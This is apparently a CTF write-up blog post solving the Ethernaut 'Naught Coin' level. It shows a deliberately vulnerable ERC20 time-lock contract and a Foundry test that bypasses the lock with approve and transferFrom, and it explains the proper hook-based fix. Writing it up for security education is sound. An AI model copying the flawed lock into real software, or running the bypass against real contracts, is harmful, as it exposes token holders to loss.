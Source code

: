 ```yaml
---
title: 'Ethernaut Challenge #15 Solution — Naught Coin'
excerpt: This is Part 14 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>We have tons of `NaughtCoin` tokens in our balance but we cannot withdraw them for **10 years**. The goal of this challenge is to find a way to withdraw them skipping the lock period.
coverImage:
  url: '/assets/blog/ethernaut/naught-coin.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/naught-coin.svg'
---
```


This is Part 15 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.medium.com/lets-play-ethernaut-ctf-learning-solidity-security-while-playing-1678bd6db3c4) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #15: Naught Coin

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.
>
> Things that might help
>
> - The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
> - The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

We have tons of `NaughtCoin` tokens in our balance but we cannot withdraw them for **10 years**. The goal of this challenge is to find a way to withdraw them skipping the lock period.

## Study the contracts

Let's review the contract code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = now + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) public ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(now > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

The contract is pretty simple. In the `constructor` the Contract mint to the `player` address `1_000_000` tokens.

> **Note:** there's a double event emission in the `constructor`. After the `_mint` execution the contract `emit` a `Transfer` event without knowing that the native implementation of the OpenZeppelin `_mint` function already `emit` a `Transfer` event.

The contract is overriding the `transfer` function by adding the `lockTokens` function modifier to the `ERC20` implementation. Let's see what this modifier do:

```solidity
// Prevent the initial owner from transferring tokens until the timelock has passed
modifier lockTokens() {
    if (msg.sender == player) {
        require(now > timeLock);
        _;
    } else {
        _;
    }
}
```

The modifier check if the `msg.sender` is the `player` and if that's the case it check if at least `10 years` have passed since the minting time.

**Are our precious tokens stuck for 10 years?**

To solve this contract we need to know how the EIP (Ethereum Improvement Proposal) for the ERC20 token works and how OpenZeppelin has implemented it (the contract is using the OpenZeppelin framework library).

You can find all the informations needed from these links:

- [Ethereum EIP-20](https://eips.ethereum.org/EIPS/eip-20)
- [OpenZeppelin ERC20 Docs](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)
- [OpenZeppelin ERC20 Implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)

There are two way to transfer tokens:

- via the `transfer` function that allow the `msg.sender` to directly transfer tokens to a `recipient`
- via the `transferFrom` that allows an external arbitrary `sender` (that could be the owner of the tokens itself) to transfer on behalf of the owner an `amount` of tokens to a `recipient`. Before sending those tokens the owner must have **approved** the `sender` to manage that amount of tokens

Because the `transfer` method has been `overrided` by the `NaughtCoin` contract we can circumvent the restriction by using the `transferFrom` function.

Here's what we need to do:

1. Create a secondary account to transfer all our tokens to
2. Approve ourself to manage the whole amount of tokens before calling `transferFrom`
3. Call `transferFrom(player, secondaryAccount, token.balanceOf(player))`
4. Use the tokens however we want!

What should the `NaughtCoin` countract have implemented to really lock our token for **10 years**? Instead of `overriding` the `transfer` function they could have implemented an **hook** that the EIP-20 define called `_beforeTokenTransfer`.

This hook is called when any kind of token transfer happen:

- `mint` (transfer from `0x` address to the user)
- `burn` (transfer from the user to `0x` address)
- `transfer`
- `transferFrom`

By doing so they would have prevented this exploit.

## Solution code

The solution is really easy to implement:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create a secondary account to transfer all our tokens to
    address payable tempUser = utilities.getNextUserAddress();
    vm.deal(tempUser, 1 ether);

    // Get the balance of tokens for the player
    uint256 playerBalance = level.balanceOf(player);

    // Approve ourself to manage the whole amount of tokens before calling `transferFrom`
    level.approve(player, playerBalance);

    // Transfer all the tokens from the player balance to the secondary account
    level.transferFrom(player, tempUser, playerBalance);

    vm.stopPrank();

    // Assert that the player has no more tokens
    assertEq(level.balanceOf(player), 0);

    // Assert that the secondary account received all the tokens
    assertEq(level.balanceOf(tempUser), playerBalance);
}
```

You can read the full solution of the challenge opening [NaughtCoin.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/NaughtCoin.t.sol)

## Further reading

- [Ethereum EIP-20](https://eips.ethereum.org/EIPS/eip-20)
- [OpenZeppelin ERC20 Docs](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)
- [OpenZeppelin ERC20 Implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
